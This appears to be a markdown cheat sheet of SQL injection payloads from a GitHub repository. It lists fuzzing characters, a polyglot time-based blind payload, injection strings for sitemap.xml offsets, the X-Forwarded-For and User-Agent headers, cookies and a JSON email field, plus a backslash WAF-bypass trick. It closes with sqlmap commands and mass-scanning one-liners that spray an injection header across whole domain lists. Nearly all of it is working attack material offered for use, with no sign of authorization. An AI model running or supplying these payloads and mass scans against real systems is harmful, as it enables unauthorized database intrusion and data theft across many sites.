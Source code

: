 ### Payloads
```

"
"'
' "
'"
'''
.
/
\
%5c
%27
%22
%23
%3B
%27%22%60
%22%27
%27%20%22
%27%22
%27%27%27
)
")
')
))
"))
'))
)))
#
;
''
`
,
""
//
\\
%
%00
||
0.or-1%23
'or-1%23
%2F
%5C
%29
%22%29
%27%29
%29%29
%22%29%29
%27%29%29
%27%27
%60
%60%60
%2C
%22%22
%2F%2F
%5C%5C
%7C%7C
28 %
%2A%7C
//*
%7C
29 %
(
*/*
|
*
*)(&
*)(|(&
*)(|(*
*))%00
-'
```

##### TOOLS
- sqlmap
- ghauri ==> this is best


### Ultiamte sql injection payload to test 
`IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
`
##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload
##### Also check injection in cookie 
---
#### Insert backslash in username and password parameter while creating account
`username=admin\&password=admin\` It may bypass some waf and also trigger error in sql syntax

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````
- sql injection in email parameter when email is send to check if it exists or not
   ```` 
   {“email”:”asd@a.com”}   response: {“code”:2002,”status”:200,”message”:”Email not found.”}
   {“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}   response:{“code”:0,”status”:200,”message”:”Successful”}	        Valid Delay: 8,696 milis

   `````



##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````


